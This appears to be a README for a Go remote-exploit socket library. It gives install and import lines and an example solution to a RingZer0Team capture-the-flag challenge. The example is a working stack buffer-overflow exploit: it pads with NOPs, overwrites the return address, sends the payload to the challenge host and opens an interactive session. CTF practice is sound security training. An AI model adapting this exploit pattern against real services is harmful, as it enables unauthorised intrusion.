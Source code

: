 ##### http://www.securitysignal.org/2015/12/securitysocket-remote-exploit-library.html #####

Install Library: go get github.com/hdbreaker/Go-SecuritySocket/ssocket

Import: import "github.com/hdbreaker/Go-SecuritySocket/ssocket"

Example: # Solution with Go of Challenge https://ringzer0team.com/challenges/181

#exploit.go
package main

import (

	"bytes"
	"encoding/binary"
	"strings"
	
	"github.com/hdbreaker/Go-SecuritySocket/ssocket"
)

func main() {

	var raoPromptAdress uint32 = 0x40149B //dirección de memoria de rao_promt
	buffRao := new(bytes.Buffer)
	binary.Write(buffRao, binary.LittleEndian, &raoPromptAdress)
	payload := strings.Repeat("\x90", 56) + string(buffRao.Bytes())
	ss := ssocket.SecuritySocket{Protocol: "tcp", Host: "ringzer0team.com:1001"}
	conn := ss.Connect()
	ss.Send(conn, payload)
	ss.Interactive(conn)

}
